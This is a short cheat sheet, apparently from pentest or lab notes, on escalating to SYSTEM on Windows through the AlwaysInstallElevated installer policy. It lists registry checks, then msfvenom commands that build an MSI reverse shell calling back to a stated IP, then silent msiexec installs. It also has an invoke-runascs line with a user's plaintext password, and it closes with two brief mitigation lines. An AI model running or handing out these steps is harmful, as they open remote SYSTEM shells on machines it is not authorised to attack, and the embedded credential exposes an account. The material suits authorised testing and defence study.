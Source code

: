 ## What is AlwaysInstallElevated?

AlwaysInstallElevated is a Windows Installer policy that, when set in both HKCU and HKLM to 0x1, allows .msi packages to be installed with SYSTEM privileges even by low-privileged users.

## How to ?
Query for AlwaysInstallElevated registry key
```
reg query HKCU\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated  
reg query HKLM\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated
```
Note: Both the current user and local machine hives must be 0x1 (Turned on)

Generate reverse shell for `.msi`
```
msfvenom -p windows/x64/shell_reverse_tcp LHOST=<TARGET_IP> LPORT=<PORT> -f msi -o rev.msi
msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.17.38.79 LPORT=53 -f msi -o rev.msi
```

Upload file and run the installer using msiexec
```
msiexec /quiet /qn /i <PATH_TO_.msi>
msiexec /quiet /qn /i C:\Users\dev-datasci-lowpriv\Downloads\rev.msi
```
`msiexec`: Windows Installer Command-line utility used for installing, modifying, or uninstalling MSI packages  
`/quiet`: Runs the installer with no user interface or prompts displayed  
`/qn`: Quiet mode with no user interface  
`/i`: install the specified package  

Case 1:
- `msiexec` not installing (No response)
- Available User credentials
Try `runasc`
```
PS C:\Users\dev-datasci-lowpriv\Downloads> invoke-runascs 'dev-datasci-lowpriv' 'wUqnKWqzha*W!PWrPRWi!M8faUn' "cmd /c msiexec /quiet /qn /i C:\Users\dev-datasci-lowpriv\Downloads\rev.msi"  
```

## Mitigation

- Disable Computer Configuration\Administrative Templates\Windows Components\Windows Installer
- Disable User Configuration\Administrative Templates\Windows Components\Windows Installer


